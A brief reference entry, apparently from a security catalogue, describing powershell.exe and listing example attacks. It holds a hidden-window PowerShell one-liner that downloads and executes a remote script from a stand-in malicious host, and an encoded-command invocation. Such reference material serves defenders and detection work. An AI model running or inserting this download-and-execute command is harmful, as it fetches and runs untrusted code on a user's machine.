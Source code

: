 # powershell.exe
## What is it?
*PowerShell is a scripting language used for system administration.*

## Example Attacks
```
powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious[.]site/script.ps1')"

powershell -EncodedCommand "<base64_payload>"
```
